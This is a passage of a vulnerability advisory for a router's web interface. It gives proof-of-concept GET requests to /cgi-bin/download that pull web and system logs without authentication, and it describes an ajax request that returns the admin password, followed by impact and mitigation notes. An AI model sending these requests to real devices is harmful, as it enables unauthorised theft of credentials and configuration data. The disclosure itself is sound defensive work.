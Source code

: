 ### 2.4 Proof of Concept (PoC)

```http
GET /cgi-bin/download?web HTTP/1.1
Host: 192.168.2.1
Connection: close
```

* **Expected Response:**

  * Full contents of the `web` log file, including prior administrator login attempts, configuration changes, and possibly sensitive tokens or passwords stored in logs.

```http
GET /cgi-bin/download?syslog HTTP/1.1
Host: 192.168.2.1
Connection: close
```

* **Expected Response:**

  * Full syslog data: may include kernel warnings, system crashes, service start/stop messages, etc.

### 2.5 Impact

* Attackers can harvest operational logs that often contain:

  * **Usernames and partially masked passwords** (e.g., in HTTP Basic Auth).
  * **Configuration changes** (e.g., port forwarding rules, firewall modifications).
  * **Network diagnostics** (e.g., WAN IP address, DNS queries).
* This information can facilitate further attacks (e.g., targeted phishing, network pivoting).

### 2.6 Mitigation

1. **Immediate Mitigation (on deployed devices):**

   * Block access to `/cgi-bin/download` via network ACL (firewall, router ACL).
   * Disable remote log download if not required.

2. **Long-Term Fix (for vendor):**

   * Enforce authentication before serving any log file.
   * Implement proper input validation on the `logtype` parameter to restrict to valid, authorized files.
   * Sanitize any user-supplied data in the `download` routine.

---

## 3. Duplicate Information Disclosure: `get_all_preconfig_info` (Duplicate of CVE-2025-44099)

> **Description:**
> Identical to the `get_factorytest_info` vulnerability: a crafted GET request to
>
> ```
> /cgi-bin/ajax?ajaxmethod=get_all_preconfig_info&tkagent=<user-agent-string>
> ```
>
> returns the current admin password and other preconfiguration details.

